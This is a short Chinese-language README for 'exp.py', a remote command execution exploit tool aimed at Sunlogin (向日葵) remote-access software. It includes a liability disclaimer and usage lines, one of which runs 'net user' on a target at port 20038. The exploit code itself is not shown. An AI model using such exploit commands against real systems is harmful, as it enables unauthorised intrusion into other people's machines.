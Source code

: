 # 向日葵RCE漏洞检测工具

## 使用需知
仅供企业内部安全隐患排查使用，由于传播、利用此工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

## 功能
只写了漏洞利用，没写端口检测
有空再完善代码，及添加批量检测功能

```shell
python exp.py -a [--host] -p [port] -c [--command] 
python exp.py -a 192.168.28.250 -p 20038 -c "net user"
```
![image-20220218041904120](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220218041904120.png)
